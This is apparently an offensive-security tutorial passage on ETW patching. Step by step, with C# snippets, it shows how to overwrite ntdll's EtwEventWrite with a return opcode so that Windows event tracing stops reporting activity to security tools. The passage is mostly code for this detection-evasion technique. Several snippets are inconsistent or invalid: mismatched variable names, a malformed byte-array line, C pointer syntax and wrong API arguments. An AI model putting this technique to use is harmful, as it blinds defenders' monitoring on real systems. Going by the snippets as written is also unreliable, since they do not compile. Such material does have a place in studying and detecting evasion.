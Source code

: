 
At a high level, ETW patching can be broken up into five steps:

1. Obtain a handle for `EtwEventWrite`
2. Modify memory permissions of the function
3. Write opcode bytes to memory
4. Reset memory permissions of the function (optional)
5. Flush the instruction cache (optional)

At step one, we need to obtain a handle for the address of `EtwEventWrite`. This function is stored within `ntdll`. We will first load the library using `LoadLibrary` then obtain the handle using `GetProcAddress`.

```csharp
var ntdll = Win32.LoadLibrary("ntdll.dll");
var etwFunction = Win32.GetProcAddress(ntdll, "EtwEventWrite");
```

At step two, we need to modify the memory permissions of the function to allow us to write to the function. The permission of the function is defined by the `flNewProtect` parameter; `0x40` enables X, R, or RW access ([memory protection constraints](https://docs.microsoft.com/en-us/windows/win32/memory/memory-protection-constants)).

```csharp
uint oldProtect;
Win32.VirtualProtect(
	etwFunction, 
	(UIntPtr)patch.Length, 
	0x40, 
	out oldProtect
);
```


At step three, the function has the permissions we need to write to it, and we have the pre-defined opcode to patch it. Because we are writing to a function and not a process, we can use the infamous `Marshal.Copy` to write our opcode.

```csharp
patch(new byte[] { 0xc2, 0x14, 0x00 });
Marshal.Copy(
	patch, 
	0, 
	etwEventSend, 
	patch.Length
);
```

At step four, we can begin cleaning our steps to restore memory permissions as they were.

```csharp
VirtualProtect(etwFunction, 4, oldProtect, &oldOldProtect);
```

At step five, we can ensure the patched function will be executed from the instruction cache.

```csharp
Win32.FlushInstructionCache(
	etwFunction,
	NULL
);
```
